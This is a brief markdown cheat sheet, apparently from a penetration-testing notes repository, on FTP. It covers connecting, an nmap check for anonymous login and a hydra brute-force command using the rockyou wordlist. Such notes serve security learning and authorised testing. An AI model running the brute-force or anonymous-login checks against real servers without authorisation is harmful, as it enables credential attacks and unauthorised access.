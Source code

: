 # File Transfer Protocol) (FTP)

Used to Transfer Files From Server To The client and runs on Port 21.

* ***Connect to FTP***

```shell
ftp ip-address 
```

![scrren1](https://user-images.githubusercontent.com/92652606/145721149-9c9e8a94-b97d-4819-bed9-fd9ce33e2250.png)


* ***Enumrating FTP*** 

```shell
nmap -script=ftp-anon-p 21 10.10.0.1

```

<img width="634" alt="Screen Shot 2021-12-12 at 17 39 06" src="https://user-images.githubusercontent.com/92652606/145721160-d1509fec-6d63-4b4a-a970-c823b78687aa.png">

```
Checking if Anonymous Loging is enabled anonymous:anonymous
```

* ***Exploiting Ftp***

Using Brute-force Attack

```
hydra -t 4 -l usernmae -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.12 ftp
```
![scrren2](https://user-images.githubusercontent.com/92652606/145722136-c7554bdb-631a-4ed1-bcc7-9b0ab433d8e9.png)



